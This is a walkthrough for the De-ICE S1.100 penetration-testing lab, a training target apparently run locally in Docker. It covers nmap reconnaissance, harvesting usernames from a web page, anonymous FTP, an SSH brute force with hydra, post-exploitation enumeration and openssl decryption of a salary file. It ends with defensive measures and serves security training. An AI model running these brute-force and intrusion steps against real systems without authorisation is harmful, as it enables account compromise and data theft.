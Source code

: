 # De-ICE S1.100 Penetration Testing Lab Guide

## Scenario
You've been hired to perform a penetration test on De-ICE Corporation's web server. The CEO believes the system is secure since they run regular Nessus scans. Your job is to prove that automated scanning isn't enough.

## Learning Objectives
- Service enumeration and reconnaissance
- Username harvesting from web applications
- SSH brute force attacks
- File system exploration via FTP
- Cryptographic analysis and decryption

## Lab Setup
```bash
./setup.sh
```

## Step-by-Step Walkthrough

### Phase 1: Reconnaissance

**From your Kali/attacker machine:**

1. **Network Discovery**
   ```bash
   # If attacking from same host:
   nmap -sC -sV -p 21,80,110,143,1025,2222,8025 localhost
   
   # If attacking from separate VM/machine:
   nmap -sC -sV -p 21,80,110,143,1025,2222,8025 [HOST_IP]
   ```

2. **Service Enumeration**
   Expected services:
   - Port 21: FTP (vsftpd)
   - Port 80: HTTP (Apache)
   - Port 110: POP3 (Dovecot)
   - Port 143: IMAP (Dovecot)  
   - Port 1025: SMTP (MailHog)
   - Port 2222: SSH (OpenSSH)
   - Port 8025: MailHog Web UI

### Phase 2: Information Gathering

3. **Web Application Analysis**
   ```bash
   # Browse to the target
   curl http://localhost      # if same host
   curl http://[HOST_IP]      # if remote host
   ```
   - Extract employee names and email addresses
   - Generate potential usernames:
     - aadams (Alice Adams)
     - bbanter (Bob Banter) 
     - ccoffee (Carol Coffee)
     - ddeeds (Dave Deeds)
     - eeikman (Eve Eikman)

4. **FTP Enumeration**
   ```bash
   ftp localhost              # if same host
   ftp [HOST_IP]              # if remote host
   # Try anonymous login
   # List files in directories  
   # Download any interesting files
   ```

### Phase 3: Exploitation

5. **SSH Brute Force**
   Create username and password lists:
   ```bash
   # Common username formats
   echo -e "aadams\nbbanter\nccoffee\nddeeds\neeikman\nroot\nadmin" > users.txt
   
   # Weak password patterns
   echo -e "nostaw\npassword\npassword123\n123456\nadmin\nroot" > passwords.txt
   
   # Use hydra or medusa for brute force
   hydra -L users.txt -P passwords.txt -s 2222 localhost ssh    # same host
   hydra -L users.txt -P passwords.txt -s 2222 [HOST_IP] ssh    # remote host
   ```

6. **SSH Access**
   ```bash
   ssh -p 2222 aadams@localhost     # same host
   ssh -p 2222 aadams@[HOST_IP]     # remote host
   # Password: nostaw
   ```

### Phase 4: Post-Exploitation

7. **System Exploration**
   ```bash
   # Check user privileges
   whoami
   id
   sudo -l
   
   # Explore file system
   ls -la /home
   find . -type f -name "*.txt" -o -name "*.csv" 2>/dev/null
   ```

8. **File Analysis**
   - Look for encrypted files from FTP
   - Attempt to decrypt using found credentials
   ```bash
   # If you found salary_dec2003.csv.enc
   openssl enc -aes-256-cbc -d -salt -in salary_dec2003.csv.enc -out salary.csv -k "HeadOfSecurity"
   ```

## Expected Findings

### Vulnerabilities Discovered:
1. **Weak SSH Credentials**: User 'aadams' has password 'nostaw'
2. **Information Disclosure**: Employee details exposed on website
3. **Unencrypted FTP**: Anonymous access to sensitive files
4. **Weak Encryption**: Salary data encrypted with guessable password

### Risk Assessment:
- **Critical**: Weak authentication allows system compromise
- **High**: Sensitive salary information accessible
- **Medium**: Service enumeration reveals attack surface

## Cleanup
```bash
docker-compose -f de-ice-s1100.yml down
```

## Additional Challenges

Try these advanced scenarios:
1. Can you crack other user passwords?
2. What other sensitive files can you discover?
3. Can you escalate to root privileges?
4. How would you maintain persistence?

## Defensive Measures

Discuss how to prevent these attacks:
- Strong password policies
- Multi-factor authentication
- Principle of least privilege
- Regular security assessments
- Proper file permissions and encryption